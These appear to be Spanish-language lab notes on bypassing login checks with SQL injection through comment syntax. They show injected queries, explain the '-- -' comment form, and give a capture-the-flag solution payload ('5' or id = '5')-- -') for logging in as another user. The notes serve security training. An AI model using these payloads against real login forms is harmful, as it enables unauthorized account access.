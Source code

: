 # Using Comments

## Omision de atenticacion con comentarios
```
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```
Como se puede observar, el nombre del usuario es amdmin y el resto de la consulta hora se ignora como un comentario, de esta manera podemos asegurarnos que la consulta no tenga ningun problema de sintaxis.

---

![alt text](image/12.png)

```
SELECT * FROM logins where (username='admin')
```

En esta consulta se tuvo que agragar un parentesis de cierre, para poder cerrar y comentarel resto.

```
Nota: En SQL, usar sólo dos guiones no es suficiente para iniciar un comentario. Entonces, tiene que haber un espacio vacío después de ellos, por lo que el comentario comienza con (--), con un espacio al final. A veces, esta URL está codificada como (--+), ya que los espacios en las URL están codificados como (+). Para que quede claro, agregaremos otro (-) al final (-- -), para mostrar el uso de un carácter de espacio. 
```

## Reto

 Inicia sesión como usuario con el id 5 para obtener la bandera.

![alt text](image/13.png)

```
5' or id = '5')-- -
```